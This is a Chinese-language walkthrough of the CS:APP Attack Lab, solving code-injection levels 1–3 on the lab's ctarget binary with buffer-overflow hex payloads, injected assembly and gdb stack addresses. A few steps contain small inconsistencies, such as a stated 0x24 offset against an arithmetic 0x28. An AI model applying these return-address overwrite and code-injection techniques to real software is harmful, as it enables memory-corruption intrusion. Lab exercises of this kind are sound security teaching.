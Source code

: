 lab之前先阅读了该lab的文档 非常关键  
http://csapp.cs.cmu.edu/3e/attacklab.pdf  
Both CTARGET and RTARGET read strings from standard input. They do so with the function getbuf  
defined below:  
```c
unsigned getbuf()
{
char buf[BUFFER_SIZE];
Gets(buf);
return 1;
}
```

正式开始之前先用命令 lscpu | grep -i byte 查看机器是大端还是小端 这会影响输入的顺序  
Byte Order:            Little Endian  
显示为小端机器 则地址顺序相比正常写法需要改变   
如地址0x123456 需要写为 56 34 12  
再将ctarget gtarget用objdump转换成汇编代码以便了解函数地址  

### ***CI level1***
汇编代码中 函数touch1 在地址0x4017c0  
且getbuf有 rsp-0x28 即40bytes  
于是在输入的第40字节后添加地址 4017c0 以替换栈中的ret值  
答案如下(一行10位 每行放一次指令)
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
c0 17 40
```

### ***CI level2***
与上题不同 level2 需要编写一个函数将给定的cookie值带入指定的函数   
若直接在返回插入函数地址 加上栈随机化 很难找到正确的函数入口 此时需要利用栈指针直接转跳   
利用栈指针 先找到栈指针位置  
```
Starting program: ctarget -q   
Cookie: 0x59b997fa   
Dump of assembler code for function getbuf:   
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp   
   0x00000000004017ac <+4>:	mov    %rsp,%rdi   
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>   
   0x00000000004017b4 <+12>:	mov    $0x1,%eax   
   0x00000000004017b9 <+17>:	add    $0x28,%rsp   
   0x00000000004017bd <+21>:	retq      
End of assembler dump.   
(gdb) p/x $rsp   
$1 = 0x5561dca0   
(gdb) p/x 0x5561dca0-0x28   
$2 = 0x5561dc78   
```
获得%rsp位置此时还没运行该指令分配空间 需要减去0x24 得到运行后的栈地址0x5561dc78 同样需要转换成小端地址78 dc 61 55   
运行得到的 Cookie: 0x59b997fa    
需要将cookie值(0x59b997fa)存入%rdi寄存器用于传参数给函数touch2    
再查看ctarget的汇编代码 得知touch2 的起始地址为 4017ec 即可开始写注入所需的函数   
File\:phase.s   
```assembly
pushq $0x4017ec
movq  $0x59b997fa,%rdi
retq

```
使用gcc -c选项编译该文件   
再利用objdump 反编译成机器码得到   
```
68 ec 17 40 00       	pushq  $0x4017ec   
48 c7 c7 fa 97 b9 59 	movq    $0x59b997fa,%rdi   
c3                   	retq      
```
则答案为  
```
68 ec 17 40 00
48 c7 c7 fa 97 b9 59
c3                                 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00     
00 00 00 00 00 00 00 00 00 00    
78 dc 61 55      
```


### ***CI level3***
和level2的思路一致 先获取touch3地址 0x4018fa  
level3需要将cookie转换成ascii字符串形式   
0x59b997fa 转化为字符串为 35 39 62 39 39 37 66 61   
同时 提示给出 touch3中会导致输入被覆盖    
因此 传递的参数不能直接储存至输入 于是在栈指针下方储存   
rsp + 0x8 = 0x5561dca8    
phase3.s:
```assembly
pushq $0x4018fa
movq  $0x5561dca8,%rdi
retq

```
反汇编得到   
```
fa 18 40 00       	      pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq   
```
答案   
```
68 fa 18 40 00
48 c7 c7 a8 dc 61 55 
c3 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00  
78 dc 61 55 
35 39 62 39 39 37 66 61
```
